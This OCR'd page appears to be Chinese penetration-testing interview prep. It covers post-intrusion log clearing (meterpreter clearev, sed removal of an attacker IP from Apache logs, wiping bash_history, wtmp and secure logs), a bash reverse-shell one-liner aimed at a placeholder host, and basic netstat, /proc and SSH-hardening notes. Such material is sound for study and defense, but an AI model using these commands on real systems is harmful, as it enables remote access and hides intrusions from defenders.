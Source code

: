 ### 如何清理日志

meterpreter: `clearev`

### 入侵 Linux 服务器后需要清除哪些日志？

web 日志，如 apache 的 access.log,error.log。 直接将日志清除过于明显, 一般使用 sed 进行定向清除

e.g. sed -i -e ‘/192.169.1.1/d’

history 命令的清除，也是对~/.bash_history 进行定向清除

wtmp 日志的清除，/var/log/wtmp

登录日志清除 /var/log/secure

### LINUX

查看当前端口连接的命令有哪些？`netstat` 和 `ss` 命令的区别和优缺点

```
netstat -antp` `ss -l


```

ss 的优势在于它能够显示更多更详细的有关 TCP 和连接状态的信息，而且比 netstat 更快速更高效。

反弹 shell 的常用命令？一般常反弹哪一种 shell？为什么?

```
bash -i>&/dev/tcp/x.x.x.x/4444 0>&1


```

通过 Linux 系统的 / proc 目录 ，能够获取到哪些信息，这些信息可以在安全上有哪些应用？

```
ls /proc


```

系统信息，硬件信息，内核版本，加载的模块，进程

linux 系统中，检测哪些配置文件的配置项，能够提升 SSH 的安全性。

`/etc/ssh/sshd___config` iptables 配置

